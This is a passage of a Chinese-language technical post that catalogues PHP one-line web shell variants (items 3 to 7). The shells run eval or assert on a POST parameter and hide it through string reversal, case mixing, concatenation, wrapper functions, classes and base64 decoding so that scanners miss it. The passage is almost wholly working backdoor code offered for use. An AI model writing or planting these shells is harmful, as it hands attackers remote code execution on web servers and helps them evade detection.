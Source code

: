 #### 3) 字符串逆序、大小写混淆、字符串拼接

````php
<?php
$a = "Tr"."Es"."SA";$b = strtolower($a);
$c = strrev($b);
$c($_POST['A1ertx5s']);
?>
````

#### 4) 定义函数

```php
<?php
    function gkey($a){
    	@eval($a);
	}
	gkey($_POST['A1ertx5s']);
?>
```

#### 5) 定义类

```php
<?php
    class RKey{
    	public function gkey($a){
            @eval($a);
        }
	}
	$key = new RKey;
	$key -> gkey($_POST['A1ertx5s']);
?>
```

#### 6) 定义类、使用base64编码函数

```php
<?php
    class RKey{
    	public function gkey($a){
            @eval(base64_decode($a));
        }
	}
	$key = new RKey;
	$key -> gkey($_POST['A1ertx5s']);
?>
```

#### 7) 定义函数、base64编码

```php
<?php
    function gkey($a){
    	@eval($a);
	}
	gkey(base64_decode($_POST['A1ertx5s']));
?>
```

目前就整理这么多。







